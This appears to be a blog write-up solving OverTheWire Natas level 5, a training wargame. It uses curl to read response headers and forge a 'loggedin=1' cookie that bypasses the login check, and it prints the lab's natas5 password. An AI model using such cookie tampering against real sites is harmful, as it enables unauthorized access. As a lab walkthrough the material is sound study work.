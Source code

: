 ```yaml
---
title: OverTheWire Natas Level 4 -> 5
author: Michael McDonagh
pubDatetime: 2025-03-03T20:30:00Z
slug: overthewire-natas-5
featured: false
draft: false
tags:
  - overthewire
  - natas
  - web
ogImage: ""
description: Solution for OverTheWire Natas level 5 challenge.
---
```


## Description

Username: natas5  

URL:      <http://natas5.natas.labs.overthewire.org>

---

## Solution

Solution for the Overthewire.org [Natas level 4 -> Level 5](https://overthewire.org/wargames/natas/natas5.html)

Visit the url `http://natas5.natas.labs.overthewire.org` in the browser and we get a prompt for login.

Use the username `natas5` and the password obtained from the previous challenge.

Once logged in we get an `Access disallowed` message.

![Natas 5 home page](@/assets/images/overthewire/natas/natas05_home.png)

Checking the source code does not give any new information.

In the previous challenge we looked at the `HTTP headers` so let's check them again.

Using `curl --head --user <USERNAME>:<PASSWORD> --url <URL>` syntax we can view the headers.

```bash
$ curl --head --user natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq --url http://nata
s5.natas.labs.overthewire.org

HTTP/1.1 200 OK
Date: Wed, 20 Apr 2022 23:55:42 GMT
Server: Apache/2.4.10 (Debian)
Set-Cookie: loggedin=0
Content-Type: text/html; charset=UTF-8

```

We can see in the headers that there is a cookie being set.  
`Set-Cookie: loggedin=0`

Let's set `loggedin` to 1 and see what differences occur.
We can passed cookie data using the `--cookie` option in curl.

```bash
curl --user natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq --cookie "loggedin=1" --url http:/
/natas5.natas.labs.overthewire.org/
```

The response we get tells us Access granted and the password.

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas5", "pass": "iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq" };</script></head>
<body>
<h1>natas5</h1>
<div id="content">
Access granted. The password for natas6 is aGoY4q**************************</div>
</body>
</html>
```

The password for the next challenge is `aGoY4q**************************`.
